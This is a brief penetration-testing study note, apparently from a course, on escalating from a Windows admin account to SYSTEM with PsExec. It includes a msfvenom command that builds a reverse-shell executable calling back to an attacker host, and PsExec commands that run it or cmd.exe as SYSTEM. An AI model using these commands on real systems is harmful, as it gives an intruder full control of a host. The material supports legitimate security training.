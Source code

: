 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

To escalate from an admin user to full SYSTEM privileges, you can use the PsExec tool from Windows Sysinternals.

[https://docs.microsoft.com/en-us/sysinternals/downloads/psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

A copy is included in the course tools ZIP archive.

```bash - kali
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f exe -o reverse.exe
```

```powershell - target
.\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[4._File Transfers]]

#### RDP
RDP'd in and then just ran the command prompt as Administrator, followed by:

```command prompt - target
powershell
```

```powershell - target
.\PsExec64.exe -i -s cmd.exe
```
